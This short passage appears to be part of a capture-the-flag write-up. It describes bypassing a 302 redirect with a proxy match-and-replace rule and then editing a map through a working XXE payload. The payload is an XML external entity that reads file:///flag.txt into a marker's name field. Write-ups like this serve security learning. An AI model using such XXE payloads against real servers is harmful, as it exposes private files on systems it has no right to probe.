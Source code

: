 Drop `302` redirect to browse the page normally

`Proxy` -> `Match and replace rules`

![](attachment/6d8e671ccadacc93b8e528b4cf0ea014.png)
#### XXE

Now I can edit map

![](attachment/8a29a6b571bc03b71c42d25b495d7ed2.png)

Payload :

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
<markers>
    <marker>
        <lat>47.0748663672</lat>
        <lon>12.695247219</lon>
        <name>&test;</name>
    </marker>
</markers>
```

![](attachment/d66dbfbadbb327af5ef7ca7c630dd03e.png)
